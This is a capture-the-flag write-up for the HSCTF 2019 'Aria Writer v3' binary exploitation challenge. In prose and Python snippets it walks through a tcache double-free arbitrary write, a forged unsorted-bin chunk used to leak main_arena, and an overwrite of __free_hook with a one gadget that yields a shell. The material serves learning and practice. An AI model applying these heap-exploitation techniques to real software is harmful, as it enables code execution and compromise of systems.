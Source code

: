 HSCTF 2019

Aria Writer v3

After all that writing, Rob's gone blind. He still needs to finish this song though :(

Binary Exploitation

468 points


# Summary

Rob can write and discard drafts, thus allowing for the allocation of chunks smaller than 420 bytes with values of our choosing, as well as the freeing of the current chunk. Unlike Aria Writer v1, there is no longer a limitation on the number of times we discard our letter; however, there is a limitation on the number of letters we can write.

There happens to be a global array `curr`, with

* `curr[0]` being the pointer for `malloc()` and `free()`
	
* `curr[1]` and beyond being the name. For convenience, I will refer to this as `name` (0x602048).

# Vulnerability

As with Aria Writer v1, the tcache double free vulnerability can be exploited to write into an arbitrary location. To reduce redundancy, I implemented this under a function called `tcache_write`.

```python
def tcache_write(block_size, target, new_value):
    '''
    Exploits tcache double free to write into arbitary location

    Args:
        block_size - size of memory block to be allocated
        block_size - size of memory block to be allocated
        target - target address to be overwritten. Must be aligned to 0x10
        new_value - the value to be written to target address
    '''
    malloc(block_size, '')
    free()
    free()
    malloc(block_size, p64(target))
    malloc(block_size, '')
    malloc(block_size, new_value)
	
```

`block_size` does not matter as long as it uses a different tcache bin for every call. Using different bins may not be neccessary, but it is a good safety measure, since the target location might have some random value that will be copied into the tcache bin.

# Exploit

The idea is to overwrite `__free_hook` with one gadget, which requires leaking the location of libc.

Since Aria Writer v3 does not limit the number of times option 2 is chosen, leaking `main_arena` might be doable through the fd and bk pointers of small bin. However, I forged a large chunk instead and placed it in the unsorted bin because my solution was modified from that of Aria Writer v1.

For a chunk to be placed in the unsorted bin, it must

* not be on the top of the heap, or else it will be merged with the top chunk rather than stored in a bin. The heap manager will check whether the next chunk is in use to decide whether to merge the large chunk with the next chunk, and each chunk stores information on whether the previous chunk is free in the P flag. Thus, we will forge two small chunks after it.
* not fit into any tcache bins. There are 40 tcache bins, starting with 0x10 and incrementing by 0x10. Thus, the forged chunk should have a size greater than 0x410. I went with 0x420.

There is ample space in the data segment to hold the forged chunk. The forged chunk is in the location of `name` because `name` is printed at every turn, giving us a means of viewing the leak.

```python
# 1. prepare the chunk header for the forged chunk with size of 0x420
#    0x421 will be read into address 0x602048 (name)
conn.send(p64(0x421) + '\n')
name = 0x602040   # use 0x602040 from now on since malloc expect the buffer to be aligned to 0x10

# 2. forge small chunks at 'name + 0x420' to satisify unsorted bin conditions
tcache_write(0x60, name + 0x420, p64(0)+p64(0x21)+'c'*0x10+p64(0x20)+p64(0x21))

# 3. instantiate chunk 0x602050 with 0x420 bytes
tcache_write(0x70, name + 0x10, '')

```

With these conditions met, we free, consequently placing the forged chunk into the unsorted bin.

```python
free()

```

Since the forged chunk is the only chunk in the unsorted bin, both the forward and back pointers should point to somewhere in `main_arena`.
Unfortunately, we can't obtain our leak just yet, as the string terminates early due to a null byte. It prints the ascii representation of `0x21 0x04`.

In Aria Writer v1, there was a secret option 3 that printed 200 characters of `name`. Unfortunately, we don't have that luxury here and thus must find a different way to circumvent this.

I made a request for an arbitrary amount of memory. Size does not matter as long as it fits in a tcache bin. Its contents must not exceed 7 bytes, as explained later.

```python
malloc(0x10, '')
```

After the allocation, the memory layout will be:

	0x602040 -> 0x602050        0x0021              [chunk_header for 0x10 alloc]
	
	0x602050 -> xxxxxxxx        main_arena+0x50     [fd and bk (unlinked from main_arena)]
	
	0x602060 -> 0x602040        0x0401		[chunk_header for the remainder]
	
	0x602070 -> main_arena+0x60 main_arena+0x60     [fd and bk (linked into main_arena)]
	
Note that ```fd``` is corrupted by the '\n'. Thus, the string we pass in must not exceed 7 bytes, or else ```bk``` will also be corrupted.


From here, I overwrote everything leading up to the second pointer with filler.

```python
tcache_write(0x30, name, 'a' * 0x17)
```

As the null terminator is now gone, `main_arena` should be printed properly on the next turn.

We calculate the address of libc from offsets found under the debugger and overwrite `__free_hook` with our one gadget.

```python
tcache_write(0x90, free_hook, p64(libc_address + one_gadget))
```

Another call to free will trigger `__free_hook`, and our one gadget will be called to get into the shell.